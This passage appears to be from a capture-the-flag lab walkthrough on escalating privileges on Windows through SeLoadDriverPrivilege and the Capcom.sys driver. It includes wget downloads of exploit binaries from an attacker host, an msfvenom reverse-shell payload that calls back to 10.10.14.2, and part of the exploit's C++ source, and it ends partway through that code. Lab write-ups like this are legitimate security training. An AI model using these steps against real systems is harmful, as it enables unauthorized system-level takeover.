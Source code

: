 Grab the user flag!

## Privilege Escalation

### LoadDriver Fail

When checking our privileges, we come across a new one called `SeLoadDriverPrivilege`.&#x20;

```
*Evil-WinRM* PS C:\Users\svc-print\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

This is vulnerable because it allows us to manipulate the drivers used by the machine, and they are run as SYSTEM. This Github repository contains files that we need to exploit this:

{% embed url="https://github.com/k4sth4/SeLoadDriverPrivilege" %}

I cloned the repo, and then downloaded the relevant files over:

```
*Evil-WinRM* PS C:\Users\svc-print\desktop> wget 10.10.14.2/ExploitCapcom.exe -O ExploitCapcom.exe
*Evil-WinRM* PS C:\Users\svc-print\desktop> wget 10.10.14.2/eoploaddriver_x64.exe -O eoploaddriver_x64.exe
*Evil-WinRM* PS C:\Users\svc-print\desktop> wget 10.10.14.2/Capcom.sys -O Capcom.sys
```

But, following the PoC does not work for some reason. I think it is because the command executed in the pre-compiled binaries don't work on this machine  In this case, we would probably need to change the command that is being run to directly execute a reverse shell.&#x20;

### Second Attempt

First, we can create a reverse shell via `msfvenom`.&#x20;

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe -o rev.exe
```

Then, we would need to change the code used and compile the project ourselves. We can grab the project here and open it in VSCode.&#x20;

This is the original code:

```cpp
static bool LaunchShell(TCHAR* cmd)
{
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(NULL, cmd, nullptr, nullptr, FALSE,
        0, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        std::cout << "CMD failed" << std::endl;
        std::cout << GetLastErrorAsString() << std::endl;
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
```